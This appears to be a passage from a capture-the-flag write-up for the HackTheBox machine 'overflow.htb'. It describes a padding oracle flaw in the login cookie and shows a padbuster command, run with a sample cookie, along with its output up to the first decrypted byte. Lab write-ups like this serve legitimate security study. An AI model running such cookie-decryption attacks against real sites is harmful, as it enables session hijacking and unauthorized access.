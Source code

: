 [![020_invalid_padding](/img/overflow/020_invalid_padding.png)](/img/overflow/020_invalid_padding.png)

The cookie is vulnerable to an oracle padding attack which let's us decrypt the value of the cookie in a first run using padbuster with a valid authenticated cookie.

```
$ padbuster http://overflow.htb g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx 8 -cookies auth=g%2Bw7A9KF5m6lJbDY9WSBRqO%2FwK4vvZOx -encoding 0

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: home/index.php
[+] Content Length: 12227

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     12227   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (162/256) [Byte 8]
```
